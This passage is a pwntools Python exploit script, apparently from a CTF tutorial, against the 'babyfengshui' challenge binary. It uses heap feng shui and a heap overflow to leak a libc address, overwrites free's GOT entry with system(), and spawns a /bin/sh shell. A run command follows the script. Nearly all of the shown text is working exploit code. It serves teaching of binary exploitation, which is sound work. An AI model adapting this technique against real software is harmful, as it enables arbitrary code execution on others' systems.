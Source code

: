 ```python
    p.sendline(text)
 
def delUser(idx):
    p.recvuntil('Action: ')
    p.sendline('1')
    p.recvuntil('index: ')
    p.sendline(str(idx))
 
def displayUser(idx):
    p.recvuntil('Action: ')
    p.sendline('2')
    p.recvuntil('index:')
    p.sendline(str(idx))
    p.recvuntil('description: ')
    addr = p.recvline()
    return addr[:4]
 
def updateDesc(idx,size,text):
    p.recvuntil('Action: ')
    p.sendline('3')
    p.recvuntil('index: ')
    p.sendline(str(idx))
    p.recvuntil('text length: ')
    p.sendline(str(size))
    p.recvuntil('text: ')
    p.sendline(text)
 
p = process('./babyfengshui')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
 
#Heap Feng Shui
addUser(10,'A'*10,'B'*10)
addUser(10,'A'*10,'B'*10)
addUser(len('/bin/sh'),'/bin/sh','/bin/sh')
 
#free()
delUser(0)
 
#Heap Overflow
addUser(120, 'HeapOverflow', 'A'*152+p32(0x804b010))
 
#Leak libc address
libcAddr = displayUser(1)
 
free = u32(libcAddr)
libcBase = free - libc.sym['free']
system = libcBase + libc.sym['system']
 
log.info('Libc base : '+hex(libcBase))
log.info('free() : '+hex(free))
log.info('system() : '+hex(system))
 
#Overwrite free.got
updateDesc(1,4,p32(system))
 
#system('/bin/sh')
delUser(2)
 
#Get shell
p.interactive()
```
```nasm
lazenca0x0@ubuntu:~/Exploit/HeapFensui$ python exploit.py
```
